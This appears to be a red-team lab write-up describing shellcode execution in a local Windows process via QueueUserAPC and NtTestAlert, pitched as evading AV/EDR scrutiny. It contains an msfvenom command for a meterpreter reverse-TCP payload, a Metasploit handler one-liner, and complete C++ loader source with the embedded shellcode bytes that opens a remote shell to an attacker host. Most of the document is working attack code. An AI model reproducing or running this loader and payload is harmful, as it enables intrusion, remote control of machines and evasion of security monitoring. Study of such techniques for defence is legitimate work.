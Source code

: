 # Shellcode Execution in a Local Process with QueueUserAPC and NtTestAlert

This is a quick lab that shows how to execute shellcode within a local process by leveraging a Win32 API `QueueUserAPC` and an officially undocumented Native API `NtTestAlert`, which lands in kernel that calls `KiUserApcDispatcher` if the APC queue is not empty.

The advantage of this technique is that it does not rely on `CreateThread` or `CreateRemoteThread` API calls which are more popular and hence usually more scrutinized by SOCs and AV/EDR vendors.

Thanks to [Mumbai](https://twitter.com/win64_) for pointing me to `NtTestAlert`.

## Execution

The flow of the technique is simple:

1. Allocate memory in the local process for the shellcode
2. Write shellcode to the newly allocated memory location
3. Queue an APC to the current thread
4. Issue `NtTestAlert`
5. Receive meterpreter session

Lets's generate the meterpreter shellcode first:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/annotation-2019-05-27-191650.png)

Short code that performs `NtTestAlert` function address resolution, memory allocation, shellcode writing to memory, APC queuing and `NtTestAlert` call:

![](../../.gitbook/assets/annotation-2019-05-27-192952.png)

Now, set up a multi handler for catching the incoming meterpreter connection:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; exploit"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the technique in action, resulting in a meterpreter shell:

![](../../.gitbook/assets/apc-local.gif)

## Code

{% code-tabs %}
{% code-tabs-item title="local-apc.cpp" %}
```cpp
#include "pch.h"
#include <Windows.h>

#pragma comment(lib, "ntdll")
using myNtTestAlert = NTSTATUS(NTAPI*)();

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	myNtTestAlert testAlert = (myNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));
	SIZE_T shellSize = sizeof(buf);
	LPVOID shellAddress = VirtualAlloc(NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	WriteProcessMemory(GetCurrentProcess(), shellAddress, buf, shellSize, NULL);
	
	PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
	QueueUserAPC((PAPCFUNC)apcRoutine, GetCurrentThread(), NULL);
	testAlert();

	return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Reference

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FAPC%2FNtTestAlert.html" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-queueuserapc" %}

